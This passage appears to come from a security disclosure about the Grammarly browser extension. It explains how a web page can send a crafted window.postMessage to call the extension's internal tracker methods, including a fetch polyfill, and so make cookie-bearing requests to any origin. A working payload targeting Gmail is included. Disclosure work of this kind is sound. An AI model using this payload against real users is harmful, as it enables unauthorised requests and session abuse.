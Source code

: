 `p.tracker.gnar` has a set of interesting methods like `setUser`. Grammarly extension uses `setUser` to invalidate session. 

``` js
a["session-invalidate"] = function (e, t, n, r, o) {
        ...
        s.call("gnar.setUser", i, c)
        ...
}
```

> I'm not sure, but looks like calling this method with crafted payload may lead to incorrect userId in telemetry. 

Team probably should know how much powerful listed above funcstions are. 

#### `_fetch`

`p.tracker.gnar` has `_fetch` property which points to `fetch` function.
More interesting is that, it's a polyfill, not a native function.

> I guess this polyfill isn't compliable to WHATWG fetch, because it allows making requests to `data:/chrome-extension:/` origins.

That means, it's possible to call `fetch()` with attacker's params from the extension.

```
p.tracker.gnar_fetch.apply(p.tracker.gnar, ["FetchURL", "FetchParams"])
```

Page has to call `window.postMessage` with next object to call `fetch` from the extension
```
x = window.top.postMessage({
    grammarly: true,
    action: 'tracking',
    method: 'gnar._fetch',
    props: { // FetchParams
        method: 'GET',
        headers: {
            'Content-Type': 'application/json'
        }
    },
    param: 'https://mail.google.com/mail/u/0/#inbox' // <FetchURL>
}, "*")
```

#### XHR + cookies

Grammarly extension has permissions to access all URLs and cookies from all origins. 
Grammarly makes all XHR requests with cookies -> it's possible for attacker to make blind requests with cookies to any origin.

> (except `chrome://`, however, `chrome-extension://` is allowed because of polyfill for `fetch`).

> More details in "Impact" section.

## Browsers Verified In:
